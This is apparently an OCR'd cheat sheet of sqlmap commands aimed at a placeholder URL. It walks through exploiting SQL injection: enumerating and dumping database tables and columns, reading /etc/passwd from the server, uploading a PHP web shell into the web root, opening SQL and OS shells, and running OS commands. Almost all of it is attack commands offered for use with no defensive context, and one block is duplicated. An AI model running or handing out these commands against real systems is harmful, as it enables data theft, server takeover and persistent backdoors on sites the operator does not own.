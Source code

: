 **Extract Tables**

```bash
sqlmap -u http://example.com/page.php?id=1 -D database --tables
```

**Extract Columns**

```bash
sqlmap -u http://example.com/page.php?id=1 -D database -T table_name --columns
```

**Dumping Data**

```bash
sqlmap -u http://example.com/page.php?id=1 -D database -T table_name -C colum1,column2 --dump
```

**Multithreading**

```bash
sqlmap -u http://example.com/page.php?id=1 --dbs --threads 5
```

**Reading Files from the server**

```bash
sqlmap -u http://example.com/page.php?id=1 --file-read=/etc/passwd
```

**Checking privilages**

```bash
sqlmap -u http://example.com/page.php?id=1 --privileges
```

**Reading Files from the server**

```bash
sqlmap -u http://example.com/page.php?id=1 --file-read=/etc/passwd
```

**Uploading Files/Shell**

```bash
sqlmap -u http://example.com/page.php?id=1 --file-write=/root/shell.php --file-dest=/var/www/shell.php
```

**SQL Shell**

```bash
sqlmap -u http://example.com/page.php?id=1 --sql-shell
```

**OS shell**

```bash
sqlmap -u http://example.com/page.php?id=1 --os-shell
```

**OS Command Exe without Shell Upload**

```bash
sqlmap -u http://example.com/page.php?id=1 --os-cmd "uname -a"
```
